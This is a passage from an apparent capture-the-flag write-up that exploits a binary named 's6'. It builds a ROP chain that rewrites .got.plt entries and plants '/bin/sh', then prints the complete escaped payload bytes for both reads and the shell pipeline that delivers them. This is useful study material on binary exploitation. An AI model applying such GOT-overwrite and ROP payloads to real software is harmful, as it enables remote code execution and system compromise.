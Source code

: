At the end of the game, the .got.plt table will be changed like this (in bold the overwritten bytes):

Address           |Value          | Meaning
------------------|---------------|-----------------
0x00601000        | 0x00600e28    | .dynamic
0x00601008        | 0             | placeholder for dynamic entry
0x00601010        | 0             | placeholder for dynamic entry
0x00601018        | **0x00400744**    | ~~puts~~ `ret`
0x00601020        | **0x00400506**    | system
0x00601028        | **0x0040073e**    | ~~read~~ `pop;pop;pop;ret;`
0x00601030        | **0x00400526**    | \_\_libc\_start\_main
0x00601038        | **0x0040064e**    | ~~strcmp~~ the address of the instruction before `sub rsp, 0x30`
0x00601040        | **0x0068732F6E69622F**    | ~~\_\_gmon\_start\_\_~~ "/bin/sh"
0x00601048        | 0x00400556    | err

In this way, the `puts` are harmless, and the `read` will align the stack (by removing the crap pushed by previous calls, and the first padding of the buffer which went overwritten just after the stack rewind) and return to the first gadget of the ROP chain.

So, finally, the bash-friendly and 64-bit aligned little endian buffer for the *second* read will be:

```
\x44\x07\x40\x00\x00\x00\x00\x00\x06\x05\x40\x00\x00\x00\x00\x00\x3e\x07\x40\x00\x00\x00\x00\x00\x26\x05\x40\x00\x00\x00\x00\x00\x4e\x06\x40\x00\x00\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00
```

## Step 3 - the final ROP chain

The final buffer, to be stored on the stack with the first call to `read` is, therefore:

Chunk Contents   | Chunk length   | Meaning 
-----------------| ---------------|----------------
0x42..0x42       | 8 bytes        | padding
0x00400743       | 8 bytes        | `pop rdi; ret`
0x00601040       | 8 bytes        | address of "/bin/sh"
0x004006c7       | 8 bytes        | `call sym.imp.system`
0x00601038         | 8 bytes        | Overwrites saved frame pointer (start of PLT target + 0x20)
0x00400670       | 8 bytes        | This overwrites the return address of `main` (let's `read` again, to overwrite PLT)

In bash-friendly and 64-bit aligned little endian format, the buffer for the *first* read:

```
\x42\x42\x42\x42\x42\x42\x42\x42\x43\x07\x40\x00\x00\x00\x00\x00\x40\x10\x60\x00\x00\x00\x00\x00\xc7\x06\x40\x00\x00\x00\x00\x00\x38\x10\x60\x00\x00\x00\x00\x00\x70\x06\x40\x00\x00\x00\x00\x00
```

## Running and cinema

Here is the command line used to send escaped bytes to stdin:

```bash
 while read -r line; do echo -e $line; done | ./s6
```
